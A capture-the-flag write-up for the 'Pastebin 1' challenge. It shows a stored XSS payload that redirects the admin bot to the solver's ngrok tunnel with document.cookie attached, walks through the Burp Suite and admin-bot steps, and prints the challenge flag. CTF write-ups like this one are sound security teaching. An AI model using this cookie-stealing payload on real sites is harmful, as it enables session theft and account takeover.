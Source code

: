 # Pastebin 1 (530 solves/104 points)
## Description:

Ah, the classic pastebin. Can you get the admin's cookies?
![pastebin-1.mc.ax](http://pastebin-1.mc.ax)
![Admin bot](https://admin-bot.mc.ax/pastebin-1)

## Solution

Let's open the pastebin. It presents itself with an input box and a create paste button. Upon some examination, we can notice that the paste can execute javascript.
Now to get the admin cookies, we can get the admin into sending his cookies to a page that we own. Let's spin up a ngrok tunnel on our machine. This tunnel need not be hosting a service, because we just need to check the logs to see what page was the admin redirected to.
We can open the page in burpsuite to intercept the requests.
In the input box, this payload is entered.
```
<script>
url = "<YOUR NGROK TUNNEL URL>/"+document.cookie;
window.location.href=url;
</script>
```
Make sure the intercept is on. Burpsuite will intercept the paste ID. Let's copy the paste ID and add "http://pastebin-1.mc.ax" before the paste ID. Putting it into the admin bot, we can see the flag come up in the NGROK logs. 
## Flag:
flag{d1dn7_n33d_70_b3_1n_ru57}
